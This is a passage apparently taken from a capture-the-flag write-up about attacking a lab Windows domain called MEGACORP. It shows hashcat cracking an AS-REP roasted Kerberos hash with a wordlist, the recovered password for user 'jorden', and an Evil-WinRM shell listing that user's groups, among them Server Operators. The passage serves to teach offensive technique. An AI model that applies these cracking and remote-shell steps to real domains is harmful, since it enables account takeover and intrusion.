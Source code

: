 ```text
Hash.Target......: $krb5asrep$23$jorden@MEGACORP:1056ca13b19833bd5ae11...6d38f5
Time.Started.....: Fri Jul 24 20:36:37 2020 (6 secs)
Time.Estimated...: Fri Jul 24 20:36:43 2020 (0 secs)
Guess.Base.......: File (/home/zweilos/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   740.8 kH/s (13.81ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4407296/14344384 (30.72%)
Rejected.........: 0/4407296 (0.00%)
Restore.Point....: 4390912/14344384 (30.61%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: ramirez@7 -> rageagaint

Started: Fri Jul 24 20:36:14 2020
Stopped: Fri Jul 24 20:36:44 2020
```

the user `jorden`'s password was `rainforest786`

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\jorden S-1-5-21-3167813660-1240564177-918740779-3110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                        Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
```